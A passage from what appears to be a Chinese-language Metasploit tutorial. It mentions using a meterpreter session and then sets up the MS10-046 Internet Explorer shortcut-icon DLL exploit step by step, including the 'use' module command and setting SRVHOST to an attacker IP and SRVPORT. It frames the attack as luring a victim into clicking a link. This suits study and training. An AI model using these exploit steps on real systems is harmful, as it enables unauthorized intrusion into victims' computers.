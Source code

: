 选择会话后，我们立即获得`meterpreter`会话。然后我们可以进行进一步的利用。例如，在上图中，我们可以看到用于检查系统信息的`sysinfo`命令。

## 利用 Internet Explorer 快捷方式图标进行攻击

我们将要演示的另一个浏览器漏洞是包含恶意 DLL 的快捷方式图标。此漏洞是一种在 Windows XP 下运行在 IE 6 上的社会工程攻击。我们只需要引诱受害者点击链接在他的系统上运行漏洞攻击。启动`msfconsole`并输入`use windows/browser/ms10_046_shortcut_icon_dllloader`。

![Internet Explorer shortcut icon exploit](img/3589_06_13.jpg)

现在输入`show options`以详细查看我们必须在漏洞利用中设置的所有选项。

![Internet Explorer shortcut icon exploit](img/3589_06_14.jpg)

需要的第一个选项是`SRVHOST`。反向连接需要 IP 地址，所以这里我们通过键入`set SRVHOST 192.168.0.109`来设置攻击者的机器 IP。

![Internet Explorer shortcut icon exploit](img/3589_06_15.jpg)

现在输入`set SRVPORT 80`设置地址，即本地端口地址。

![Internet Explorer shortcut icon exploit](img/3589_06_16.jpg)
